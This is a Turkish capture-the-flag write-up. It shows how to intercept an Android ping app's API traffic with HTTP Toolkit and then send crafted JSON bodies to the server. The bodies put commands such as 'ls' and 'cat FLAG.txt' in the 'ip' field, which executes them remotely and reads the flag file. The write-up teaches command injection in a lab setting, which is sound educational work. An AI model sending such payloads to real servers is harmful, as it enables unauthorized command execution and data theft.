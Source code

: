 ### Çözüm

## Ağ İzleme Kurulumunun Yapılması
Android uygulamamızı açtığımızda karşımızda verilen IP adresine ICMP ping isteği atmamıza yarayan bir sistem çıkacaktır. Bu sistem komutu Android cihazımızda yürüterek değil, bir API aracılığıyla çalışmaktadır.

Bu yüzden Android uygulamamızın tüm ağ trafiğini izlememiz gerekecektir. Bunun birkaç yolu bulunmakta:

- HTTP Toolkit'e Frida veya Android Studio aracılığıyla bir emülatör bağlamak
- HTTP Toolkit'e kendi fiziksel Android cihazımızı bağlamak
- Kendi cihazımızdaki tüm trafiği izleyecek kurulumu yapıp bir Android emülatörüyle uygulamayı çalıştırmak

Android Studio bir CTF yarışmacısının elinde olacağı için bu yollardan en kolayıdır. Cihazımızı ADB'ye bağlayıp HTTP Toolkit aracılığıyla trafiğini izlememiz mümkün.

### API'ı Keşfetmek
Cihazın ping komutunu bir API aracılığıyla yürüttüğünü anlamıştık. Trafiğimizi izlersek bunu sağlayan HTTP isteğini yakalayabiliriz.

Cihaz, komutu sunucuya JSON gövdesine sahip bir POST isteği ile gönderiyor. Dolayısıyla bu isteği kendimiz de herhangi bir yerden atabiliriz. Ayrıca isteği atarken giden komutu değiştirebiliriz:


```json
{
    "ip": "ping 0.0.0.0 -t 4" 
}
```

Normalde giden isteğin gövdesi aşağıdaki gibidir. Biz bunu istediğimiz komutları çalıştırma amacıyla kullanabiliriz. Örneğin, sunucudaki dizini listelemek için bir istek gönderelim:

```json
{
    "ip": "ls"
}
```



Cevap aşağıdaki gibi olacaktır:

```text
.dockerignore
.gitignore
node_modules
Dockerfile
bun.lockb
index.js
FLAG.txt
package.json
```

Komutumuzun başarıyla yürütüldüğünü ve sunucunun bize bir dizin listelemesi yaptığını görüyoruz. Dizindeki dosyaları incelediğimizde aralarında 'FLAG.txt' isimli dosya gözümüze çarpmış olmalı. İçeriğini okumak için sonraki komutumuzu çalıştırıyoruz:

```json
{
    "ip": "cat FLAG.txt"
}
```
Sunucu da cevap olarak bayrağımızı döndürecektir:
```text
BayrakBende{s1b3r1_4z4lt4l1m_4g4l4r}
```
